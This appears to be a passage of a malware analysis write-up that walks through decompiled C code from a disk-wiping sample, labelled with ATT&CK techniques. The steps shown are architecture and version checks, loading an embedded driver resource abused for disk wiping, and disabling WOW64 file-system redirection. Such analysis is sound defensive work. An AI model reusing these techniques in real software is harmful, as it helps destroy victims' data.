 ```c
    IsWow64Process = (BOOL (__stdcall *)(HANDLE, PBOOL))GetProcAddress(v2, "IsWow64Process");
    if ( IsWow64Process )
    {
      v4 = GetCurrentProcess();
      IsWow64Process(v4, &v40);
    }
  }
```
<br /><br />
Checking windwos version - T1082 System Information Discovery 

```c
  memset(&VersionInformation, 0, sizeof(VersionInformation));
  VersionInformation.dwOSVersionInfoSize = 284;
  VersionInformation.dwMajorVersion = 6;
  VersionInformation.dwMinorVersion = 0;
  v5 = VerSetConditionMask(0i64, 2u, 3u);
  v6 = VerSetConditionMask(v5, 1u, 3u);
```
<br /><br />
Based on the checking, load the sys driver (It's legit but used as diskwipe - T1561 Disk Wipe)

```c
  if ( VerifyVersionInfoW(&VersionInformation, 3u, v6) )
  {
    if ( v40 )
      v7 = FindResourceW(hModule, L"DRV_X64", L"RCDATA");
    else
      v7 = FindResourceW(hModule, L"DRV_X86", L"RCDATA");
  }
  else
  {
    if ( GetLastError() != 1150 )
      return 0;
    v35 = 1;
    if ( v40 )
      v7 = FindResourceW(hModule, L"DRV_XP_X64", L"RCDATA");
    else
      v7 = FindResourceW(hModule, L"DRV_XP_X86", L"RCDATA");
  }
```
<br /><br />
Now, disable Windows file system redirection (Do not use C:\Windows\syswow64, use system32 instead)

```c
  nNumberOfBytesToWrite = SizeofResource(hModule, v8);
  if ( v40 && Wow64DisableWow64FsRedirection )
    Wow64DisableWow64FsRedirection((PVOID *)&v31);
  phkResult = 0;
```
<br /><br />
Disable Windows crash dump
